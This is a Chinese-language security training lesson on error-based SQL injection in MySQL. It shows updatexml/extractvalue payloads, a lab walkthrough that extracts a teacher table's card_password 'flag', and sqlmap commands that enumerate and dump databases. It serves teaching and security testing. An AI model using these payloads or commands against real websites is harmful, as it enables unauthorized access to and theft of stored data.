# 护网行动红蓝攻防教程：P59：11_报错注入 🧪

在本节课中，我们将学习SQL注入中的一种重要技术——报错注入。我们将了解其基本原理、适用场景，并通过一个简单的实战案例来掌握其使用方法。

## 什么是报错注入？

上一节我们介绍了联合查询注入，本节中我们来看看报错注入。报错注入是SQL注入的一种类型。它通常在无法使用联合查询时被考虑使用。实际上，即使可以使用联合查询，也可以使用报错注入，但这就像有捷径不走而选择绕远路一样。按照常规思路，报错注入是在“捷径”（联合查询）无法直达时，才考虑的“换乘”方案。

使用报错注入的条件是：**不能过滤一些关键的函数**，并且需要有**报错信息的回显**。

## 报错注入的核心原理

报错注入的核心思想是：**人为构造一个SQL语法错误，使得数据库在执行查询时，将我们想要窃取的数据（如查询结果）包含在返回的错误信息中**。

例如，一个简单的语法错误会返回类似信息：
```
You have an error in your SQL syntax...
```
但这对我们没有意义。我们需要构造一种特殊的错误，让错误信息中包含我们`SELECT`语句的查询结果。

在MySQL中，`updatexml()`和`extractvalue()`这两个用于处理XML文档的函数，如果其参数不符合XPath语法，就会产生报错。我们可以利用这一点。

以下是利用`updatexml()`进行报错注入的核心公式：



```sql
AND updatexml(1, concat(0x7e, (SELECT 想要查询的数据), 0x7e), 1)
```
*   `0x7e`是波浪线`~`的十六进制表示，它确保参数一定不是合法的XPath语法，从而触发报错。
*   `(SELECT 想要查询的数据)`的执行结果会被拼接到错误信息中返回。



`extractvalue()`函数的用法类似，只是它只有两个参数：
```sql
AND extractvalue(1, concat(0x7e, (SELECT 想要查询的数据), 0x7e))
```



## 实战演练：一个简单的注入点

接下来，我们通过一个学生信息查询系统来实战演练。该系统接收一个学号参数（如`sID=2019122001`），并返回该学生的信息。


### 第一步：检测注入点与类型

首先，我们测试参数是否存在注入漏洞。

1.  提交单引号 `'`，页面返回了详细的SQL语法错误，这强烈表明存在注入点，且我们的输入被拼接到了SQL语句中。
2.  为了进一步确认，我们提交 `and 1=1` 和 `and 1=2`。前者页面正常显示，后者无数据显示，这证实了这是一个**字符型注入点**。

### 第二步：使用联合查询（对比）

在深入报错注入前，我们先使用更直接的联合查询来获取数据，以便对比。

以下是利用联合查询获取数据的标准步骤：

1.  **判断列数**：使用 `order by` 语句。当 `order by 4` 时报错，说明查询结果共有**3列**。
2.  **确定回显位**：使用 `union select 1,2,3` 并让原查询失效（例如传入一个不存在的学号，或添加 `and 1=2`），可以看到数字2和3在页面上显示出来，说明第2、3列是回显位。
3.  **获取信息**：通过回显位查询数据。
    *   查询当前数据库：`union select 1,database(),3`
    *   查询所有表名：`union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()`
    *   查询指定表（如`teacher`）的列名：`union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='teacher'`
    *   查询数据：`union select 1,2,card_password from teacher`

通过以上步骤，我们成功获取到了`flag`。

### 第三步：使用报错注入

现在，我们尝试使用报错注入来达到同样的目的。

我们构造以下Payload：
```
?sid=2019122001‘ and extractvalue(1, concat(0x7e, (select card_password from teacher), 0x7e))--+
```
执行后，页面返回了XPath语法错误，并且在错误信息中，我们看到了部分`card_password`字段的值。

**遇到的问题与解决**：
错误信息显示的内容被截断了，这是因为`extractvalue()`报错返回的信息长度有限。为了解决这个问题，我们使用`substring()`函数进行截取。

调整后的Payload如下：
```
?sid=2019122001‘ and extractvalue(1, concat(0x7e, substring((select card_password from teacher), 20), 0x7e))--+
```
通过调整`substring()`的起始位置，我们可以分批获取到完整的`flag`信息。



### 工具使用：SQLmap



除了手动注入，我们也可以使用自动化工具`SQLmap`。针对本例，基本命令如下：

```bash
# 检测注入点
sqlmap -u “http://target.com/page.php?sID=2019122001”
# 获取所有数据库名
sqlmap -u “http://target.com/page.php?sID=2019122001” --dbs
# 获取当前数据库名
sqlmap -u “http://target.com/page.php?sID=2019122001” --current-db
# 获取指定数据库（college）中的所有表
sqlmap -u “http://target.com/page.php?sID=2019122001” -D college --tables
# 获取指定表（teacher）中的所有数据
sqlmap -u “http://target.com/page.php?sID=2019122001” -D college -T teacher --dump
```
使用`--dump`命令可以直接将表内数据导出，其中就包含我们要找的`flag`。





## 总结







本节课中我们一起学习了报错注入技术。

*   **原理**：利用数据库函数（如`updatexml()`, `extractvalue()`）的参数错误，将`SELECT`查询结果“夹带”在错误信息中返回。
*   **关键**：需要目标网站开启错误回显，并且未过滤相关函数。
*   **与联合查询对比**：报错注入在无法使用联合查询或联合查询无回显时非常有效，但返回的信息可能因长度限制需要截取处理。
*   **实践**：我们通过一个实战案例，从检测注入点到手动利用报错注入获取数据，完整地走通了流程。同时也介绍了使用`SQLmap`自动化工具的方法。



报错注入是SQL注入武器库中重要的一员，理解其原理和适用场景，对于进行安全测试至关重要。